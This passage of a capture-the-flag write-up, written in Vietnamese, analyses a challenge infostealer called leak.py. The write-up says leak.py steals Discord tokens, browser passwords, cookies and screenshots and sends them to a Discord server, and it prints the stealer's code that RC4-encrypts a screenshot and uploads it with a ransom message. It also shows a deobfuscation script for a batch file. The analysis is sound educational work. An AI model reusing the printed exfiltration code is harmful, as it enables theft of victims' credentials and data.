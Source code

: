 Tổng quan về ```leak.py```:

* ***Đánh cắp***: Mã thông báo Discord, mật khẩu trình duyệt đã lưu, cookie, thông tin hệ thống và ảnh chụp màn hình
* ***Lọc dữ liệu***: Gửi tất cả dữ liệu đã thu thập qua bot Discord đến kênh trên ```LobsterLeaks``` máy chủ
* ***Dọn dẹp***: Xóa bằng chứng như ảnh chụp màn hình và tệp tạm thời

4. ***Mã hóa ảnh chụp màn hình RC4 (phần thứ 2 của cờ)***

```python
try:
        from PIL import ImageGrab
        from Crypto.Cipher import ARC4
        screenshot = ImageGrab.grab()
        screenshot_path = os.getenv('ProgramData') + r'\pay2winflag.jpg'
        screenshot.save(screenshot_path)

        with open(screenshot_path, 'rb') as f:
            image_data = f.read()

        key = b'tralalero_tralala'
        cipher = ARC4.new(key)
        encrypted_data = cipher.encrypt(image_data)

        encrypted_path = screenshot_path + '.enc'
        with open(encrypted_path, 'wb') as f:
            f.write(encrypted_data)

        await channel.send(f"Screenshot from {hostname} (Pay $500 for the key)", file=discord.File(encrypted_path))
```
Ảnh chụp màn hình được mã hóa bằng RC4 với khóa ```tralalero_tralala```. Với khóa này, chúng ta có thể giải mã ```pay2winflag.jpg.enc``` tệp từ ```LobsterLeaks``` máy chủ bằng ```CyberChef``` và lấy phần thứ hai của cờ

![image](/assets/data/l3akctf-9.png)

5. ***Phần đầu tiên của flag***

Chúng ta đã bỏ qua tệp ```WindowsSecure.bat```. Như thường lệ, có BOM ở đầu tập lệnh. Sau khi loại bỏ nó, tập lệnh dường như đang bị làm tối chuỗi

![image](/assets/data/l3akctf-10.png)

Sau khi viết một tập lệnh giải mã bằng ```python``` chúng ta sẽ có phần đầu tiên của flag

```python
[...]
vars_dict = {}
for line in batch_script.splitlines():
    match = re.match(r'set (\w+)=(.*)', line.strip())
    if match:
        key, val = match.groups()
        vars_dict[key] = val


def decode_line(line):
    matches = re.findall(r'%(\w+)%', line)
    return ''.join(vars_dict.get(m, f"<{m}>") for m in matches)

print("📜 Giải mã các dòng batch:")
for line in batch_script.splitlines():
    if '%' in line:
        decoded = decode_line(line)
        print(decoded)

```